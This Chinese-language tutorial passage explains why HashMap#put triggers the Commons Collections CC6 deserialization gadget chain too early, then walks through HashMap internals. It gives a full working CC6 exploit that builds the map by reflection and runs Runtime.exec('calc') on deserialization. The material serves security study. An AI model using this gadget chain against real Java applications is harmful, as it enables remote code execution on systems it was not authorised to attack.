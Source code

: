 在构造CC6利用链时，由于使用`HashMap#put`来放入`TiedMapEntry`对象，导致提早触发`hashCode`，牵动整条利用链（直接自己打自己了）
由于触发了一次调用链，`LazyMap`的`map`中多出了一个`key`，后面生成的payload就打不了了。即下面的`map.containsKey(key)`判断为`true`，进不到`factory.transform(key)`

```java
public Object get(Object key) {
    // create value for key if key is not currently in the map
    if (map.containsKey(key) == false) {
        Object value = factory.transform(key);
        map.put(key, value);
        return value;
    }
    return map.get(key);
}
```
一个解决方法就是sink处改成无害的操作，`put`之后用`LazyMap#remove`将前面的键值对移除，再用反射把sink修改回去。

但有时候不好直接移除键，或者sink不好修改。这时候可以考虑用反射来构造HashMap。
~~学过数据结构的都知道~~，哈希表可以由数组+链表实现，数组每个元素存储链表头，如果有多个键值索引到同一个地方，只用把他们都放到那个位置的链表里就行了。出现哈希冲突时，只需把对应位置的链表整个扫一遍，对其中的每个数据比较其键值与查询的键值是否一致。大概长下面的样子

![image-20240303214909052](./../.gitbook/assets/image-20240303214909052.png)

HashMap的底层实现就是哈希表，对应属性`Node<K,V>[] table`，是一个Node数组，Node实际上就是一个链表节点，`next`指向下一个节点。每个节点都是一个键值对。

![image-20240303214932646](./../.gitbook/assets/image-20240303214932646.png)

接下来我们来看一下`HashMap#put`都做了什么
```java
HashMap<Object, Object> map = new HashMap<Object, Object>();
map.put("k1", "v1");
```

![image-20240303214950357](./../.gitbook/assets/image-20240303214950357.png)

对`key`进行了哈希

![image-20240303215007703](./../.gitbook/assets/image-20240303215007703.png)

`put`就是这里触发了`key.hashCode`
接着进到`putVal`

![image-20240303215023098](./../.gitbook/assets/image-20240303215023098.png)

若`table`为null或长度为0就重新初始化`table`大小，这里可以看到`table`的起始大小为16。
接着长度-1和键的哈希值进行与操作，作为键值对的存放位置。
`table`的这个位置若是空的，新建一个Node放进入（`newNode()`）
这是不发生哈希冲突的情况。
若产生了哈希冲突，则遍历链表，若找到key相等的节点，则更新该节点的值，否则在链表尾部插入新节点。

![image-20240303215127791](./../.gitbook/assets/image-20240303215127791.png)

插入新节点后，会对`modCount`和`size`进行加一操作。

![image-20240303215141310](./../.gitbook/assets/image-20240303215141310.png)

👍很符合哈希表的工作方式。
由上面的过程可以看出put操作本质就是对`table`的操作，下面用反射来模拟这一过程，修改CC6的构造。

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC6 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer(
                        "invoke", new Class[]{Object.class, Object[].class}, new Object[]{Runtime.class, null}),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map map = new HashMap();
        Map lazyMap = LazyMap.decorate(map, transformerChain);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "x");
        Map expMap = makeMap(tiedMapEntry, "xxx");

        System.out.println("No calculator Pop :)");
        Thread.sleep(5000);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(expMap);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
        ois.readObject();
    }

    public static Map makeMap(Object key, Object value) throws Exception {
        HashMap<Object, Object> map = new HashMap<>();
        // 设置size为1
        setFieldValue(map, "size", 1);

        // 构造Node
        Class<?> nodeClazz = Class.forName("java.util.HashMap$Node");
        Constructor<?> nodeCons = nodeClazz.getDeclaredConstructor(int.class, Object.class, Object.class, nodeClazz);
        nodeCons.setAccessible(true);
        Object node = nodeCons.newInstance(0, key, value, null);

        // 构造tables
        Object tbl = Array.newInstance(nodeClazz, 1);
        Array.set(tbl, 0, node);
        setFieldValue(map, "table", tbl);

        return map;
    }

    public static void setFieldValue(Object obj, String name, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```





































